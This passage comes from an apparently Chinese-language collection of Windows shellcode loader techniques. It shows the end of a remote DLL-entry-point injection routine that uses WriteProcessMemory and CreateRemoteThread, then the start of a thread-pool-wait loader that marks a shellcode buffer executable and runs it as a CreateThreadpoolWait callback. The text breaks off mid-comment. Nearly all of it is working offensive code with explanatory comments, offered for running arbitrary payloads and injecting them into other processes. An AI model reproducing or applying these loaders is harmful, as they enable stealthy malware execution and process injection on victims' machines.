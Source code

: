 ```cpp
        }
    }

    // 获取DLL的AddressOfEntryPoint
    DWORD headerBufferSize = 0x1000;
    LPVOID peHeader = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
    ReadProcessMemory(hProcess, rModule, peHeader, headerBufferSize, NULL);

    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)peHeader;
    PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)peHeader + dosHeader->e_lfanew);
    LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)rModule);

    // 将Shellcode写入DLL的AddressOfEntryPoint
    WriteProcessMemory(hProcess, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);

    // 从注入的DLL中执行Shellcode
    CreateRemoteThread(hProcess, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);

    return 0;
}

```



# 12.线程池等待

```cpp
#include <stdio.h>
#include <Windows.h>

unsigned char shellcode[] = "填写shellcode";

void ThreadPoolLoader() {
    // 定义一个DWORD变量，用于存储原始内存保护属性
    DWORD oldProtect;
    
    // 修改shellcode所在内存的保护属性为可读、可写、可执行
    VirtualProtect((LPVOID)shellcode, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect);

    // 创建一个事件对象，初始状态为有信号状态，使用默认安全属性，非手动重置，无名称
    HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);

    /*
    CreateThreadpoolWait用于创建一个线程池等待对象的函数,
    程池等待对象允许您在等待内核对象（如事件、信号量等）变为有信号状态时执行特定的回调函数
    其语法格式如下:
    PTP_WAIT CreateThreadpoolWait(
      PTP_WAIT_CALLBACK pfnwa,  //指向回调函数的指针
      PVOID              pv,   //传递给回调函数的参数
      PTP_CALLBACK_ENVIRON pcbe  //指向线程池回调环境的指针,置NULL则表示使用默认的环境
    );
    */
    // 创建一个线程池等待对象，关联到shellcode作为回调函数，回调函数参数和线程池环境为NULL
    PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)(LPVOID)shellcode, NULL, NULL);


    /*
    SetThreadpoolWait函数用于线程池中添加等待对象的函数。
    当等待的内核对象（如事件、信号量等）变为有信号状态时，线程池会调用与等待对象关联的回调函数
    其语法格式如下:
```
